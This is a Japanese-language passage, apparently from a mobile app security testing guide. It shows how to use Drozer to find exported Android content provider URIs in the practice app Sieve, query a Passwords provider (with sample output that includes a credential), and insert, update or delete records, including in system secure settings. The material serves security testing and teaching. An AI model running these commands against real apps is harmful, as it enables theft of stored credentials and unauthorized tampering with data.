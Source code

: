 この例では、二つのコンテンツプロバイダがエクスポートされ、`DBContentProvider` の `/Keys` を除いて、それらとやり取りするためのパーミッションを必要としません。この情報を使用すると、コンテンツ URI の一部を再構築して `DBContentProvider` にアクセスできます。`content://` ではじめる必要があることが知られているためです。しかし、完全なコンテンツプロバイダ URI は現在知られていません。

アプリケーション内のコンテンツプロバイダ URI を特定するには、Drozer の `scanner.provider.finduris` モジュールを使用する必要があります。これはさまざまな技法を利用してパスを推測し、アクセス可能なコンテンツ URI の一覧を決定します。

```
dz> run scanner.provider.finduris -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Unable to Query content://com.mwr.
example.sieve.DBContentProvider/
...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/Keys
Accessible content URIs:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

アクセス可能なコンテンツプロバイダの一覧を入手しました。次のステップはそれぞれのプロバイダからデータの抽出を試みることです。実現には `app.provider.query` モジュールを使用します。

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w== (Base64
-
encoded)
email: incognitoguy50@gmail.com
```

データのクエリに加えて、Drozer では脆弱なコンテンツプロバイダからレコードの更新、挿入、削除にも使用できます。

* レコードの挿入

```
dz> run app.provider.insert content://com.vulnerable.im/messages
                --string date 1331763850325
                --string type 0
                --integer _id 7
```

* レコードの更新

```
dz> run app.provider.update content://settings/secure
                --selection "name=?"
                --selection-args assisted_gps_enabled
                --integer value 0
```

* レコードの削除

```
dz> run app.provider.delete content://settings/secure
                --selection "name=?"
                --selection-args my_setting
```
